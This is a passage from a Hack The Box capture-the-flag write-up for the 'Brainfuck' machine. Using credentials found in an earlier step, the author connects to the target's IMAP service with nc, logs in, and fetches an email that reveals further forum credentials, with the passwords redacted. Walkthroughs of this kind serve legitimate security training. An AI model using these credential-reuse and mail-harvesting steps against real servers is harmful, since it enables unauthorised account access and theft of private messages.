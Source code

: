 ![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBox/Brainfuck/images/Pasted%20image%2020230604200842.png)

**Oh nice!!! We found a credentials for user `oresits`!**

Since SMTP, POP3, IMAP, SSH service is there on the target machine, let's try to retrieve some emails from that user:

**IMAP:**
```shell
┌[siunam♥earth]-(~/ctf/htb/Machines/Brainfuck)-[2023.06.04|20:23:22(HKT)]
└> nc -nv $RHOSTS 143
(UNKNOWN) [10.10.10.17] 143 (imap2) open
* OK [CAPABILITY IMAP4rev1 LITERAL+ SASL-IR LOGIN-REFERRALS ID ENABLE IDLE AUTH=PLAIN] Dovecot ready.
A1 LOGIN "orestis" "{Redacted}"
A1 OK [CAPABILITY IMAP4rev1 LITERAL+ SASL-IR LOGIN-REFERRALS ID ENABLE IDLE SORT SORT=DISPLAY THREAD=REFERENCES THREAD=REFS THREAD=ORDEREDSUBJECT MULTIAPPEND URL-PARTIAL CATENATE UNSELECT CHILDREN NAMESPACE UIDPLUS LIST-EXTENDED I18NLEVEL=1 CONDSTORE QRESYNC ESEARCH ESORT SEARCHRES WITHIN CONTEXT=SEARCH LIST-STATUS BINARY MOVE SPECIAL-USE] Logged in
```

Nice! We're logged in on IMAP!

**We can now retrieve emails via:** (Commands are from [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-imap#syntax))
```shell
A1 FETCH 2 body[text]
* 2 FETCH (BODY[TEXT] {123}
Hi there, your credentials for our "secret" forum are below :)

username: orestis
password: {Redacted}

Regards
)
A1 OK Fetch completed (0.001 + 0.000 secs).
```
